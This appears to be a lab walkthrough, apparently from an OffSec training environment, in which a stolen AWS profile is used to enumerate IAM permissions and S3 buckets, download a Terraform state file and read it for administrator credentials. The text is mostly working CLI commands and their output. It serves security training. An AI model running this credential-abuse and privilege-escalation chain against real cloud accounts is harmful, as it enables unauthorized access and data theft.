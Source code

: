 Failing to List the User Policies Attached to Configured User
```hlt:1
kali@kali:~$ aws --profile=stolen-s3 iam list-user-policies --user-name s3_explorer

An error occurred (AccessDenied) when calling the ListUserPolicies operation: User: arn:aws:iam::277537169808:user/s3_explorer is not authorized to perform: iam:ListUserPolicies on resource: user s3_explorer because no identity-based policy allows the iam:ListUserPolicies action
```

User doesn't have permissions to access policy. 

Listing S3 Bucket for Company Directory
```hlt:1
kali@kali:~$ aws --profile=stolen-s3 s3 ls company-directory-9b58rezp3vvkf90f
2023-07-06 13:49:19        117 Alen.I.vcf
2023-07-06 13:49:19        118 Goran.B.vcf
2023-07-06 13:49:19        117 Zeljko.B.vcf
```

 Listing all Buckets From stolen-s3 Account
 ```hlt:1,9
kali@kali:~$ aws --profile=stolen-s3 s3api list-buckets
{
    "Buckets": [
        {
            "Name": "company-directory-9b58rezp3vvkf90f",
            "CreationDate": "2023-07-06T16:21:16+00:00"
        },
        {
            "Name": "tf-state-9b58rezp3vvkf90f",
            "CreationDate": "2023-07-06T16:21:16+00:00"
        }
    ]
    ...
}
```
- Discover Terraform state configuration file which may have secrets!

### Discovering State File & Escalating to Admin
New Goal: read terraform state file
Need to know: name of file to read 

Listing the Terraform State Bucket
```hlt:1
kali@kali:~$ aws --profile=stolen-s3 s3 ls tf-state-9b58rezp3vvkf90f    
2023-07-06 12:19:16       6731 terraform.tfstate
```

Copying Terraform State File To Our Local Kali Instance
```hlt:1
kali@kali:~$ aws --profile=stolen-s3 s3 cp s3://tf-state-9b58rezp3vvkf90f/terraform.tfstate ./
download: s3://tf-state-9b58rezp3vvkf90f/terraform.tfstate to ./terraform.tfstate
```

Reviewing State File - Users
```hlt:1,AdministratorAccess,ReadOnlyAccess
kali@kali:~$ cat -n terraform.tfstate
001  {
...
007      "user_list": {
008        "value": [
009          {
010            "email": "Goran.Bregovic@offseclab.io",
011            "name": "Goran.B",
012            "phone": "+1 555-123-4567",
013            "policy": "arn:aws:iam::aws:policy/AdministratorAccess"
014          },
015          {
```
